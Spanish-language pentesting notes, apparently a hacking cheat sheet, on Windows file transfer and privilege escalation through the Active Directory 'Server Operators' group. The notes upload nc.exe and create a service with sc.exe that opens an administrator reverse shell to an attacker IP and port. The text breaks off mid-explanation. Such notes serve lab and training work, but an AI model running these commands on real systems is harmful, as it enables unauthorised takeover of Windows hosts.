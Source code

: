 Para descargarte un archivo a tu `host` se podria hacer de la siguiente manera...

```shell
download C:\<PATH>
```

Las rutas tienen que ser de esa manera inidicando el disco y con las barras inversas...

Para ver los servicios que hay activos, se mira de la siguiente manera...

```shell
services
```

### Active Directory Group `Server Operators`

Estando dentro de este grupo y pudiendo para y correr servicios del sistema se puede escalar privilegios de la siguiente manera...

Primero veremos en nuestro `host` donde esta el `nc.exe` para que sirva en `Windows`....

```shell
locate nc.exe
```

Info:

```
/usr/share/windows-resources/binaries/nc.exe
```

Nos copiamos ese `.exe` a nuestro directorio actual para pasarlo a la maquina `Windows`...

```shell
cp /usr/share/windows-resources/binaries/nc.exe .
```

Hacemos un `pwd` para ver en la ruta actual en la que estamos y en la que hemos llevado el archivo, en mi caso...

```
/home/kali/Desktop
```

Por lo que en la maquina `Windows` haremos lo siguiente para pasarnoslo...

```shell
upload /home/kali/Desktop/nc.exe
```

Una vez hecho esto ya estaria el `nc.exe` ya estaria en la maquina `Windows`...

Ahora lo que haremos sera arrancar un servicio ya que estamos en el grupo para poder hacerlo, de la siguiente manera haciendo una reverse shell y como lo esta ejecutando por asi decirlo el `administrador` conseguiriamos una shell como el mismo...

```shell
sc.exe create reverse binPath="C:\<PATH>\nc.exe -e cmd <IP> <PORT>"
```

Con esto lo que estamos haciendo es crear un servicio de que cuando se inicie cierto servicio arranque el `nc.exe` que se encuentra en ese `PATH` ejecutando el mismo una `Reverse Shell` con los siguientes paraemtros...
